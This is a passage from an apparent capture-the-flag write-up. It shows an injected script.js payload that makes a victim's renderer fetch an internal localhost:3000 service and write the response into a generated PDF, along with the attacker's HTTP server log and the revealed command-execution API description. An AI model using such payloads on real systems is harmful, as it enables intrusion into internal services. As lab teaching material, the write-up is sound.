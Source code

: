 We observe that, in addition to port `80`, port `3000` is also open internally.

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.117 - - [22/Mar/2025 00:24:05] "GET /script.js HTTP/1.1" 304 -
192.168.1.117 - - [22/Mar/2025 00:24:05] code 404, message File not found
192.168.1.117 - - [22/Mar/2025 00:24:05] "GET /ping?port=80 HTTP/1.1" 404 - <---
192.168.1.117 - - [22/Mar/2025 00:24:06] code 404, message File not found
192.168.1.117 - - [22/Mar/2025 00:24:06] "GET /ping?port=3000 HTTP/1.1" 404 - <---
```

We then modify `script.js` again to view the response on port 3000.

```javascript
x=new XMLHttpRequest;
x.onload=function(){
  document.write("<div>"+this.responseText+"</div>")
};
x.open("GET","http://localhost:3000");
x.send();
```

We download the PDF and see JSON data.

![alt text](../../assets/images/token-of-hate/image-12.png)

```json
{
   "name":"API de Comandos",
   "version":"1.2.0",
   "description":"API para autenticación y ejecución de comandos utilizando
un token.",
   "endpoints":{
      "/":{
         "method":"GET",
         "description":"Muestra la información de la API y la descripción de los
endpoints disponibles."
      },
      "/login":{
         "method":"POST",
         "description":"Permite iniciar sesión. Se espera un body en formato
JSON con 'username' y 'password'. Si el login es correcto, se retorna un token JWT. Ejemplo: { \"username\": \"test\",
\"password\": \"123456\" }"
      },
      "/command":{
         "method":"POST",
         "description":"Ejecuta un comando del sistema para
usuarios autenticados con rol admin. Se espera un body en formato JSON con 'command' y 'token' o enviando el token
```
